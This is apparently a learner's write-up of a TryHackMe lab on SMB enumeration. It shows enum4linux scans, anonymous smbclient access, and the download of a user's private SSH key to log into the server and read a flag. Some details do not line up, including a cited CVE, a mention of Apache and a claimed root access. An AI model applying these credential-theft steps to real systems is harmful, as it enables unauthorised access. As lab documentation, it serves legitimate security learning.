 # TryHackMe Documentation: Cyber Defense #1

## 1. Introduction
- **Purpose**: Document my experience and share knowledge on the Cyber Defense challenge.
- **Scope**:  Learn the fundamental components of detecting and responding to threats in a corporate environment.

## 2. Setup
- **Environment**: Kali Linux via VirtualBox
- **Accounts and Access**: Created a TryHackMe account and accessed the room via OpenVPN

## 3. Challenge Walkthrough

### 3.1 Room Name: Network Services
- **Objective**: Access a server and capture the flag by enumerating an SMB and exploiting its vulnerabilities to gain elevated access to exfiltrate data and capture the flag.

### 3.2 Enumeration
- **Initial Scanning**:
  - **Tools and Commands**: 
	- `Enum4linux `
	- `enum4linux -U 10.10.242.131`
	- `enum4linux -a 10.10.242.131`
  - **Findings**:
	- Users are: administrator, guest, krbtgt, domain admins, root, bin, none
	- No password 
	- Workgroup name is WORKGROUP
	- Name of machine is polosmb
	- OS running on version 6.1
	- ***Ports that are open***:
		- 22/tcp  open  ssh
		- 139/tcp open  netbios-ssn
		- 445/tcp open  microsoft-ds
	- Users profiles is shared in the SMB with the sharename 'profiles'

### 3.3 Exploitation
- **Vulnerability Identification**: [CVE-2017-7494](https://nvd.nist.gov/vuln/detail/CVE-2017-7494)
  - **Techniques Used**:  exploiting anonymous SMB share access- a common misconfiguration that can allow us to gain information that will lead to a shell.

- **Exploitation Process**:
- Enter to access SMB `smbclient //10.10.242.131/ Anonymous -U profiles`
- Press enter on the password because there is no password set
- Enter `ls -a` to show files and hidden files
![Screenshot 2024-05-20 183213](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/ef9f7522-8502-429f-bc32-cad423820baa)
- Type `get Working From Home Information` to download to your download folder
![Screenshot 2024-05-20 182845](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/1d7c5b9c-018a-4ab7-959a-64dbbc710cea)
- Enter `cat Working From Home Information.txt` in the terminal to view the text file
![Screenshot 2024-05-20 184207](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/417d6c7f-e9c6-491a-80bc-dbd43424dc9b)
- Type `open .ssh` to access directory
![Screenshot 2024-05-20 183844](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/a871111d-92af-4503-8973-c949870cfb41)
- To download type get id_rsa
![Screenshot 2024-05-20 183844](https://github.com/abelmorad/Cyber-Defense-Network-Services-Documentation-Challenge/assets/110463619/ba82f020-cde0-452d-948c-5f08794d993d)
- Type chmod 600 id_rsa to change the permissions

	







- Type ssh cactus@10.10.242.131 -i id_rsa to access the server

	- Type ls  to show files then cat smb.txt to view text file


## 4. Analysis and Reflection
- **Challenges Faced**: Difficulty in identifying the exact version of Apache.
- **Learnings**: Importance of thorough enumeration.
- **Improvements**: Try alternative enumeration techniques earlier.

## 5. Conclusion
- **Summary**: Successfully gained root access and captured the flag

## 6. References
- [TryHackMe](https://tryhackme.com)
- [Nmap Documentation](https://nmap.org/book/man.html)

